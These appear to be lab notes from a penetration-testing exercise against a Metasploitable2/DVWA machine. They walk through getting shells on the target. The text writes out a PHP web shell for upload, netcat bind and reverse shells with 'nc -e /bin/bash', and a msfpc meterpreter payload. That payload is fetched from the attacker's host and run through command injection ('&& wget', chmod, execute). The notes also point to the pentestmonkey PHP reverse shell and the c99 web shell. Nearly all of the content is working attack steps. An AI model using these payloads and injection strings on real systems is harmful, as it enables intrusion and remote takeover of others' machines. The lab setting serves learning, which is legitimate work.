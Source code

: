 ---------------------------WEB shell(BIND SHELL)---------------------
WE have a metasploitabe2 machine in our local system and apache2 server is on.

nc IP_of_Target 80      //80 here is the port number we specify if any different port is hosting apache server

//now we get web shell 

//we can request home page like this
GET / HTTP /1.1         // (/) is for root page or home page using HTTP protocol version 1.1

//we will be going to our browser and on IP_of_target and going to dvwa
//reducing dvwa security to low

//now going to upload 

//now we will upload a php shell
----------------------------------------------
<?php echo shell_exec($_GET['cmd'].' 2>&1); ?>
----------------------------------------------     
//saving it as shell.php
//after uploadation we are provided with the path of uploaded shell
//so going to the path from browser
https://IP_of_target/dvwa/hackable/uploads/shell.php

//now to run the shell we have to do this
https://IP_of_target/dvwa/hackable/uploads/shell.php?cmd=ls
//ls <---we can add any command

//https://IP_of_target/dvwa/hackable/uploads/shell.php?cmd=nc -h
//to find out that netcat is install in target ip

//now we will make target to listen through netcat
https://IP_of_target/dvwa/hackable/uploads/shell.php?cmd=nc -l -e /bin/bash -p 1234

//now in kali machine we will connect to the port 1234 we just started listening on target machine

nc IP_of_Target 1234
//and we will have the [non_interactive] shell tada..
//to convert it to interactive shell go below

----------------------Reverse Shell-------------------------------
//now we will do a reverse shell form target machine 
//do the following in target browser which we did earlier but little differently
https://IP_of_target/dvwa/hackable/uploads/shell.php?cmd=nc -e /bin/bash IP_of_kali 1234        //1234 is port number

//now lets listen for the connection in our kali machine which will be made by target_IP when we run the command from browser
//in kali
nc -lp 1234
// this is better than above condition.

--------------------MetaSploit backdoor--------------------------
msfpc - msf venom payload creator
metsploit framework to create payload files

kali>msfpc -h
//here we got the syntax and we will do the following command acording the syntax

msfpc Linux IP_of_target 4444 MSF REVERSE TCP
//we have tcp protocol for communication
//no need for staged and stageless
//we will require reverse shell
//we will do the msf for meterpreter shell
//reverse shell on port 4444
//and type of the target is LINUX

//and we got the Linux meterpreter and the command to run 
//run the command
//now we are listening on port 4444
//now we will upload the payload on target machine and run it to get reverse shell

//go to dvwa in metasploitable2 machine and go in Command Execution
//we have ping command in the given field so we will add other commands with that as per our need.

//now we will setup webserver in our machine so that we can download that in target machine

cp linux-meterpreter-staged-reverse-tcp-4444.elf /var/www/html/backdoor.elf

service apache2 start

//now in web browser in pinging filed enter
kali_machine_IP && wget https://kali_machine_IP/backdoor.elf
//first we added our machine so that first it will ping us and second it will download the file which is hoster on our kali machine

//now list the downloaded file
kali_machine_IP && ls

//changing permission
kali_machine_IP && chmod 777 backdoor.elf

//seeing permission
kali_machine_IP && ls -al

//executing the backdoor
kali_machine_IP && ./backdoor.elf 

//now going  to meterpreter terminal we saw meterpreter session 1 opened 
//to interact with that session

sessions -i 1

//to get shell
shell

--------Interactice shell-----------
//from above we found that when we did nc reverse shell we got non interactive shell
//now we want it to convert it into interactice shell

//google interactive shell cheat sheet
link - by pentestmonkey

//it have cheats to get reverse shell form the programs
//we will use php to get reverse shell
//now we will check whether php is installed on target machine

php -h
//if it get output then hell yeah

//now we have to copy the command from the cheat sheet to get reverse shell and add some tweaks to that command
//change the port number to 4444 <-----which we will be listening on kali machine before we run the command on that target
//and change /bin/sh to /bin/bash
//start listening on kali
nc -lvnp 4444

//now on bind web shell of target machine which we already have
//run php command
and tada we will have interactive shell

-------------------------Other shell-----------------
//google : php webshells
link : Github JohnTroomy/php-webshells 

//lets use one form it c99
//save the file

//go to dvwa site
//go to upload 
//upload php shell name c99.php
//now we have given the path of it we just have to enter the path in that browser after the target IP to execute it
https://IP_of_target/dvwa/hackable/uploads/c99.php

----------------------------------------------------------
